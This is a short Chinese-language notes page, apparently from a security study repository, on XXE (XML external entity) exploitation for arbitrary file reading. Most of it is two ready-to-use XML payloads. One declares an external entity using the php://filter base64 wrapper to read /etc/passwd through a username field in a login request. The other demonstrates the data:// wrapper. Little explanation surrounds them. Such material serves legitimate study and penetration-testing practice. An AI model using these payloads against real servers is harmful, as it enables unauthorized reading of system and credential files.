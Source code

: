 ### **XXE漏洞利用**

#### **任意文件读取**

1. 伪协议进行读取文件内容（base64编码）

```xml
<!DOCTYPE user [
	<!ENTITY user1 SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<user><username>&user1;</username><password>DeBf76sFV8WVcxQ</password></user>
```



![image-20210802113631453](0x007ssrf/image-20210802113631453.png)



data伪协议

```xml
<!DOCTYPE user [
	<!ENTITY user1 SYSTEM "data://text/plain,123">
]>
<user><username>&user1;</username><password>DeBf76sFV8WVcxQ</password></user>
```
